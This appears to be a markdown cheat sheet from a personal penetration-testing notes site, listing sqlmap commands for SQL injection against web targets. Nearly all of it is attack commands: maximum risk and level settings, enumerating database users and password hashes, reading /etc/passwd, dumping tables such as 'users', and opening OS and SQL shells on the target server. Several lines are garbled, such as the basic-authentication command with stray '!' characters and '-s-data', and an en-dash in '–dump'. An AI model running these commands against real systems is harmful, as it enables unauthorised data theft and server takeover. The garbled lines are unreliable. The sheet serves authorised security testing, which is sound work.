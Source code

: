 ```yaml
---
title: Sqlmap Cheatsheet  
date: 2022-12-04 22:35:00 +00:00
categories: [cheatsheet, tools]
tags: [tools]     # TAG names should always be lowercase
---
```


# Burp + sqlmap 

Save a request in burp (right click > save to file) 

Run with sqlmap 

```sh
sqlmap -r sqlmap.txt --batch
```
# Generic

```sh
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

# Internals

```sh
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```

# Reafile 

```sh
--file-read=/etc/passwd
```

# Specify param to exploit

```sh
sqlmap -u "http://target_server/param1=value1&param2=value2" -p param1
```

# Use POST requests

```sh
sqlmap -u "http://target_server" --data=param1=value1&param2=value2
```

# Access with authenticated session

```sh
sqlmap -u "http://target_server" --data=param1=value1&param2=value2 -p param1 cookie='my_cookie_value'
```

# Basic authentication

```sh
sqlmap -u !http://target_server! -s-data=param1=value1&param2=value2 -p param1--auth-type=basic --auth-cred=username:password
```

# Evaluating response strings

```sh
sqlmap -u "http://target_server/" --string="This string if query is TRUE"

sqlmap -u "http://target_server/" --not-string="This string if query is FALSE"
```

# List all databases at the site

```sh
sqlmap -u "http://testsite.com/login.php" --dbs
```

# List all tables in a specific database

```sh
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```

# List all columns in a table

```sh
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
```

# Dump the contents of a DB table

```sh
sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
```

# Shell 

Get OS Shell

```sh
--os-shell
```

Get SQL Shell

```sh
--sql-shell
```
